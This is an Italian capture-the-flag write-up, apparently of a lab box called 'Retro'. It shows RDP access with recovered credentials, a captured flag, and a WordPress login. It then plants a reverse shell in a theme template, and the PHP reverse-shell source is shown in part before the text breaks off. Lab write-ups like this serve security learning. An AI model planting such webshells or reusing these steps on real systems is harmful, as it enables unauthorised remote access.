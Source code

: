 proviamo ad accedere prima sulla porta RDP aperta
```
xfreerdp /u:Wade /p:parzival /v:10.10.216.83
```

troviamo la flag sul desktop
```
3b99fbdc6d430bfb51c72c651a261927
```

```
whoami /All
```

```
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Fatto varie enumerazioni ma niente di che torniamo al WebServer
effettuiamo l'accesso a Wordpress e creiamo una shell inversa in uno dei Temi di pagina

```
http://10.10.216.83/retro/wp-login.php
```
```
wade
```
```
parzival
```

```
90s Retro: Main Index Template (index.php)
```

reverse shell per cmd 
```
<?php
// Copyright (c) 2020 Ivan Sincek
// v2.3
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer  = 1024;    // read/write buffer size
    private $clen    = 0;       // command length
    private $error   = false;   // stream read/write error
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        if (stripos(PHP_OS, 'LINUX') !== false) { // same for macOS
            $this->os    = 'LINUX';
            $this->shell = 'cmd';
        } else if (stripos(PHP_OS, 'WIN32') !== false || stripos(PHP_OS, 'WINNT') !== false || stripos(PHP_OS, 'WINDOWS') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
```
